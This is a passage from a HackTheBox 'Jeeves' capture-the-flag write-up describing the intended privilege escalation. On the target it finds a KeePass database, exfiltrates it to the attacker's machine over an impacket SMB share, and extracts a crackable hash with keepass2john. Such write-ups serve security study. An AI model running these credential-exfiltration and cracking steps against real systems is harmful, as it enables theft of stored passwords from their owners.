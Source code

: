 ## Extra Content — Intended Priv Esc <a id="e064"></a>

After rooting the box, I watched [IppSec’s video](https://www.youtube.com/watch?v=EKGBskG8APc) and found out that I escalated privileges in an unintended way. In this section, we’ll cover the intended way to escalate privileges.

In the _Documents_ directory, we can see that there is a KeePass database.

![](../images/max/622/1*U_qvQ1okyZ_ntx3FR9hJ2w.png)

Let’s transfer it to our attack machine. First setup an SMB server with the share “_temp_” on the attack machine.

```text
impacket-smbserver temp .
```

Next, connect to that server on the target machine.

```text
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\10.10.14.7\temp"
```

Enter the _temp_ share.

```text
cd temp:
```

Then copy the _CEH.kbox_ file to the current directory.

```text
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

Now we have access to the file on the attack machine.

```text
root@kali:~/Desktop/htb/jeeves/smb# dir
CEH.kdbx
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john CEH.kdbx > hash.txt
```
